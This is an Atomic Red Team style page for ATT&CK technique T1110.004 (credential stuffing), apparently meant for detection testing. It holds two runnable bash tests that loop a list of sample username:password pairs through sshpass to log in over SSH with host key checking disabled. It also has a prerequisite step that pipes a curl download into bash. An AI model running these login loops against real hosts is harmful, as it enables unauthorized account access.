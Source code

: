 # T1110.004 - Credential Stuffing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/004)
<blockquote>Adversaries may use credentials obtained from breach dumps of unrelated accounts to gain access to target accounts through credential overlap. Occasionally, large numbers of username and password pairs are dumped online when a website or service is compromised and the user account credentials accessed. The information may be useful to an adversary attempting to compromise accounts by taking advantage of the tendency for users to use the same passwords across personal and business accounts.

Credential stuffing is a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies.

Typically, management services over commonly used ports are used when stuffing credentials. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SSH Credential Stuffing From Linux](#atomic-test-1---ssh-credential-stuffing-from-linux)

- [Atomic Test #2 - SSH Credential Stuffing From MacOS](#atomic-test-2---ssh-credential-stuffing-from-macos)


<br/>

## Atomic Test #1 - SSH Credential Stuffing From Linux
Using username,password combination from a password dump to login over SSH

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cat > /tmp/usernamepass.txt << EOF
john.doe:jonathan123!
jane.doe:spongebob402
administrator:administrator90
admin:admin303&
root:toor
centos:centos
john.smith:summer2019!
jane.smith:princesa29
EOF

for unamepass in $(cat /tmp/usernamepass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires Installation of SSHPASS
##### Check Prereq Commands:
```SSHPASS
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi; 
```
##### Get Prereq Commands:
```SSHPASS
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; elif [ $(cat /etc/os-release | grep -i 'ID="centos"') ]; then sudo yum update -y && sudo yum install sshpass -y ; else echo "This test requires sshpass" ; fi ;
```




<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS
Using username,password combination from a password dump to login over SSH

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cat > /tmp/usernamepass.txt << EOF
john.doe:jonathan123!
jane.doe:spongebob402
administrator:administrator90
admin:admin303&
root:toor
centos:centos
john.smith:summer2019!
jane.smith:princesa29
EOF

for unamepass in $(cat /tmp/usernamepass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires Installation of SSHPASS
##### Check Prereq Commands:
```SSHPASS
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi; 
```
##### Get Prereq Commands:
```SSHPASS
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install.sh)"
brew install hudochenkov/sshpass/sshpass
```




<br/>
